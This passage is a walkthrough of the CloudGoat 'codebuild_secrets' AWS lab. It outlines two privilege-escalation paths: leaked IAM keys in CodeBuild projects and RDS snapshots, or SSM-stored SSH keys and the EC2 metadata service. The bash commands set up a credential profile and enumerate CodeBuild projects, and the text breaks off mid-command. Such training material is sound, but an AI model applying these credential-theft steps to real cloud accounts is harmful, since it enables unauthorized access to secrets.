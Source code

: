 
Starting as the IAM user Solo
- enumerates and explores CodeBuild projects,
- finding insecured IAM keys for the IAM user Calrissian therein.
- Then operating as Calrissian
- discovers an RDS database.
- Unable to access the database's contents directly,
- make clever use of the RDS snapshot functionality to acquire the scenario's goal: a pair of secret strings.


Alternatively
- explore SSM parameters and find SSH keys to an EC2 instance.
- Using the metadata service, acquire the EC2 instance-profile's keys and push deeper into the target environment
- eventually gaining access to the original database and the scenario goal inside (a pair of secret strings) by a more circuitous route.


#### Exploitation Route - 1


![scenario6-1-1](https://i.imgur.com/oT6f4RK.png)


```bash
## Setting up the scenario
python3 cloudgoat.py create codebuild_secrets
# have credentials of an IAM User "Solo" to being with.


#set command line parameters
INFILE=~/.aws/credentials


# ------------- 1. Deploying the resources gives us the access key and secret key
SRC_PROFILE='solo'
AWS_ACCESS_KEY_ID='xxx'
AWS_SECRET_ACCESS_KEY='yyy'
AWS_REGION='us-east-1'
# aws sts get-caller-identity --profile $SRC_PROFILE
USE_RNAME='solo'


# ------------- 2. create a profile
# aws configure --profile $SRC_PROFILE
echo "[$SRC_PROFILE]
REGION = $AWS_REGION
AWS_ACCESS_KEY_ID = $AWS_ACCESS_KEY_ID
AWS_SECRET_ACCESS_KEY = $AWS_SECRET_ACCESS_KEY
" | crudini --merge $INFILE
echo "Set creds for profile $SRC_PROFILE in $INFILE"



# ------------- 3. enumerating the policies and permissions
# use [enumerate-iam] script to see the user privileges
# IAM User "Solo" has some EC2, CodeBuild, RDS, S3 and SSM related permissions.

# enumeration using CodeBuild related permissions
# list all the CodeBuild projects that IAM user "Solo" has access to.
BUILDPROJECTINFO=`aws codebuild list-projects --profile $SRC_PROFILE`
# cg-codebuild-cgidxgz5plnjdu
# BUILDPROJECT=`echo $BUILDPROJECTINFO | jq -r .projects[]`

# retrieve more information related to this build project.
aws codebuild batch-get-projects \
```
